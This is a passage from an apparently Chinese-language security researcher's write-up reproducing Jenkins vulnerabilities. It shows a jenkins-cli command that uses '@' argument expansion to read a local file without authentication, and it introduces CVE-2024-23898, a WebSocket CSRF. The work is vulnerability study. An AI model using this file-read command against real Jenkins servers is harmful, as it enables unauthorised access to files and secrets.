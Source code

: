 ![图片](assets/1706497193-2fb6deca71541bfbbb43a602c12ae995.png)

后面发现把-auth 删除发现也可以进入命令行解析流程，触发漏洞。无权限即可文件读取

```bash
java -jar jenkins-cli.jar  -s http://localhost:8081/ -http who-am-i @/tmp/1.txt
```

![图片](assets/1706497193-d21f055e948041b5c86d19c8571b54dd.png)

#### CVE-2024-23898

看官网通报，该漏洞为一个 websocket 的 CSRF 漏洞，在某些情况下能 RCE，因为之前没学习过 websocket 的 CSRF 特意复现了下这个漏洞

![图片](assets/1706497193-ce1e5262d49eb8f3bcf40536a989e6d2.png)
